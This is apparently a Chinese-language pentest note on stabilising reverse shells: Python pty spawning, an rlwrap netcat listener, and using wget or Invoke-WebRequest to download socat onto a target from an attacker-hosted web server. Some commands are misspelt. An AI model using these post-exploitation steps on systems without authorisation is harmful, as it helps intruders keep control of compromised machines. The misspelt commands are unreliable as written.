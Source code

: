 ##### `使用 Python`

使用 Python 可以创建一个功能强大的`bash shell`，某些目标可能需要指定 Python 版本，需要将`python`替换为`python2`或者`python3`


```Bash
python -c 'import pty;pty.spawn("/bin/bash")' #仍无法使用tab键或箭头键，CTRL+C仍会杀死sehll
export TERM=xterm    #可以访问如clear之类的命令
stty raw -echo; fg   #在自己的终端中执行，然后可以使用Ctrl+z在后台运行shell
```

**注意：**如果 shell 进程终止，自己的终端中输入的内容将不可见（因为已禁用了终端回显功能）。要解决此问题，输入 `reset ` 并按回车键

##### `使用 rlwrap`程序

> 可以让我们在接收到 `shell`后立即获得历史记录、Tab 自动补全和箭头键的功能。
> 然而，如果想在 shell 中使用 Ctrl+C，仍然需要手动进行稳定设置。


```Bash
sudo apt install rlwrap    #安装klwrap程序
<span style="color: #FBBFBC">rlwrap nc -lvnp</span><span style="color: #C7D5F6"><port></span>   #可以拥有一个功能更完整的shell
# 在处理Linux目标时，可以通过使用与前面技巧第三步相同的技巧来完全稳定shell：
stty raw -echo; fg
```

##### 使用`Socat`

> 使用初始的 nc shell 作为进入功能更完备的`nc shell`的跳板。<span style="color: #FBBFBC">仅限于 Linux 系统</span>，Windows 系统中的 socat shell 稳定性没有更好


```Bash
# 将socat静态编译的二进制文件上传到目标机器
sudo python3 -m http.server 80 # 在攻击机中使用Web服务器，然后将socat文件放入目录中
wget <span style="color: #C7D5F6"><local-ip></span>/socat -O /tmp/socat  #使用nc shell来下载文件（**Linux中**，使用curl或wget）
Invoke-Webrequset -uri<span style="color: #C7D5F6"> <local-ip></span>/socat.exe -outfile C:\\windos\temp\socat.exe #windos中
```

> 使用上述任何一种技术时，能够更改终端 tty 的大小都是很有用的。在使用常规 shell 时，终端会自动执行此操作；然而，如果您想使用诸如覆盖屏幕上所有内容的文本编辑器之类的工具，则必须手动执行此操作（在反向或绑定 shell 中）。
> 
```Bash
stty -a  #运行命令
rows 45; columns 118 #记下行数和列数的值

stty rows <number>   #在反向/bangdingshell中输入命令
stty cols <number>   #在反向/bangdingshell中输入命令
```


#### 获得绑定 shell



## 利用 Bash 反弹 shell

